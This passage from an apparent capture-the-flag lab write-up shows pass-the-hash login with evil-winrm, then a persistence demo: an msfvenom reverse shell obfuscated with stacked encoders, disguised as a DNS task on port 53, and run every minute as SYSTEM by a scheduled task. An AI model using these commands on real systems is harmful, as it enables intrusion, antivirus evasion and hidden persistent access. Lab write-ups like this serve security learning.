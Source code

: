 -   **I verify the Administrators hash works by creating starting a session using** `evil-winrm`:
    -   `evil-winrm -i $box -u administrator -H $hash`
    -   {{< figure src="/ox-hugo/2024-09-29-170148_.png" >}}


## 6. Persistence: {#6-dot-persistence}


### Creating a windows scheduled task to enable a backdoor. {#creating-a-windows-scheduled-task-to-enable-a-backdoor-dot}

-   I understand this is a box but I want to demonstrate how we can achieve persistence:

-   **I create an obfuscated shell using msfvenom**:
    -   `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=53 -a x86 --platform windows -e x86/shikata_ga_nai -i 100 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 200 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -f exe -o dnsTask.exe`
        -   I use port `53` &amp; call it `dnsTask.exe` as a way to make it appear like a normal `DNS` task connecting to a `DNS` server.

-   **I upload this to the target via** `evil-winrm` **to** `C:\Windows`:
    -   {{< figure src="/ox-hugo/2024-09-29-171504_.png" >}}
    -   I upload it to the `C:\Windows` folder as a further way to make it look authentic.

-   **I create a scheduled task to execute my shell every 1 minute**:
    -   `schtasks /create /sc minute /mo 1 /tn "dnsTask" /tr C:\Windows\dnsTask.exe /ru "SYSTEM"`
        -   {{< figure src="/ox-hugo/2024-09-29-171640_.png" >}}
        -   **Command Breakdown**:
            -   `schtasks`: The command-line utility in Windows used to create, delete, configure, or display scheduled tasks.
            -   `/create`: This option tells schtasks to create a new scheduled task.
            -   `/sc minute`: This specifies the schedule frequency for the task. In this case, it will run every minute.
            -   `/mo 1`: Modifies the frequency (modifier) to occur every 1 minute.
            -   `/tn "dns"`: The task's name is "dnsTask".
            -   `/tr C:\dnsTask.exe`: The task will run the script or command C:\tools\shell.cmd.
            -   `/ru "SYSTEM"`: This specifies that the task will run under the SYSTEM"~ user account, which gives it high-level privileges.

-   **I start my listener in** `nc.exe`
    -   `nc -nvlp 53`
    -   And&#x2026;..nothing, I believe my shell is being caught by defender.
        -   I will need to find another way, but that can wait for another day.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned that users may or may not be able to add DNS entries (super clear I know.)
2.  I never had considered using DNS as a means to for spoofing before which was a cool thing to do.
